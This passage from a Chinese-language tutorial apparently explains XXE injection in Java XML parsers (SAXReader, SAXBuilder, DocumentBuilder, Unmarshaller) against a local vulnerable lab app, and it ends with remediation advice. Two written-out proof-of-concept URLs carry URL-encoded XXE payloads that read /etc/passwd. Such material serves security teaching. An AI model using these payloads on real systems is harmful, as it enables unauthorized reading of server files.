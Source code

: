 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757295686636-f9f35287-f37d-44f9-a1ca-29845a56956c.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/XXE/SAXReader?content=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C!DOCTYPE%20root%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Croot%3E%26xxe%3B%3C%2Froot%3E
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757295633348-00c9e97b-e8a5-429c-a1c1-d1ff32822b84.png)

4. SAXBuilder

`SAXBuilder`是JDOM库的一个类，它会解析XML数据并将其转换为`Document`对象。在默认情况下，它允许解析外部实体（如DTD和外部XML实体）：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296280672-eb786d8a-c909-4582-9883-b0ca621809d4.png)

PoC：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296449256-acd37fa7-bbb7-49f5-b1ab-0c26e57af7e4.png)

5. DocumentBuilder

`DocumentBuilderFactory`是用于创建DOM解析器的工厂类，它默认允许解析外部实体（如DTD和外部XML实体）：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296589106-d976581c-44c5-4759-b820-4d431254a3b8.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/XXE/DocumentBuilder?content=%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%65%6e%63%6f%64%69%6e%67%3d%22%75%74%66%2d%38%22%3f%3e%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%20%5b%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%3e%5d%3e%3c%70%65%72%73%6f%6e%3e%3c%6e%61%6d%65%3e%26%78%78%65%3b%3c%2f%6e%61%6d%65%3e%3c%2f%70%65%72%73%6f%6e%3e
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296640858-4d464462-2c02-487a-8a05-701be55d47e8.png)

6. Unmarshaller

使用`Unmarshaller`时，未对`XMLStreamReader`和`JAXBContext`进行适当的安全配置，可能导致XML解析时处理外部实体，从而引发XXE攻击：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296779438-208a32fd-25cd-4552-9b04-dd3aab97a27b.png)

PoC：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296813967-b21a67f9-c36d-464d-afae-2f23bba4dfff.png)

### 修复意见
1. 黑名单过滤

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296901910-e6c963f8-b5de-44da-aeac-3e25e0e556d7.png)

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296919297-422ba38d-020c-4294-aefd-7dd7cfa0d3d8.png)
